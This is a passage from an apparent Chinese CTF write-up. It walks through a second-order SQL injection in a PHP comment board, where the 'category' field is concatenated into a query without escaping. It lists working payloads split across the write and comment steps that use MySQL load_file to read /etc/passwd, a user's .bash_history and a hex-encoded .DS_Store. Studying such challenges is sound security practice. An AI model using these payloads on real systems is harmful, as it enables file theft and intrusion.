 ```php
            break;
        case 'comment':
            $bo_id = addslashes($_POST['bo_id']);
            $sql = "select category from board where id='$bo_id'";
            $result = mysql_query($sql);
            $num = mysql_num_rows($result);
            if($num>0){
                $category = mysql_fetch_array($result)['category'];
                $content = addslashes($_POST['content']);
                $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
                $result = mysql_query($sql);
            }
            header("Location: ./comment.php?id=$bo_id");
            break;
        default:
            header("Location: ./index.php");
    }
}
else{
    header("Location: ./index.php");
}
?>
```

可以看到只有`category`没有被`addslashes`过滤，是直接将执行的结果进行拼接，这里是我们的入手点；先在write处插入，再在comment处闭合前面的注释符，执行结果

```
write: category=',content=user(),/*
comment: content=*/#
```

![image-20210624160242124.png](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210624160242124.png)

```
write: category=',content=(select load_file('/etc/passwd')),/*
comment: content=*/#
```

![](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210624160515229.png)

看到最后一行的www用户，继续查看.bash_history记录

```
write: category=',content=(select load_file('/home/www/.bash_history')),/*
comment: content=*/#
```

看到了.DS_Store文件，在linux中它的位置一般在`/tmp`下，同时.DS_Store中经常有不可见字符，所以加一层hex再读出

```
write: category=',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
comment: content=*/#
```
